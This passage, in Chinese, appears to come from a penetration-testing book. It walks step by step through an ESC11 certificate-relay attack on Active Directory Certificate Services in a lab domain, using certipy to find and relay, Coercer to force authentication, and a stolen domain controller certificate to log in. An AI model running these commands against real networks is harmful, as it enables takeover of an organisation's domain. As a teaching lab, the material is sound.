 1.  使用**certipy**检查 CA 是否对 ESC11 存在漏洞：

    ```
    certipy find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -stdout
    ```

    结果如下所示：

![图 8.42 – CA 对 ESC11 攻击存在漏洞](img/B18964_08_42.jpg)

图 8.42 – CA 对 ESC11 攻击存在漏洞

1.  启动监听器，使用**DomainController**模板定位 CA：

    ```
    certipy relay -target 'rpc://braavos.essos.local' -ca 'ESSOS-CA' -template DomainController
    ```

1.  使用**Coercer**工具强制认证：

    ```
    python3 Coercer.py coerce -u 'khal.drogo' -p 'horse' --target-ip 192.168.56.12 --listener-ip 192.168.56.100
    ```

1.  使用域控制器的计算机账户证书进行认证：

    ```
    certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12
    ```

    结果在以下截图中显示：

![图 8.43 – 成功的 ESC11 攻击](img/B18964_08_43.jpg)
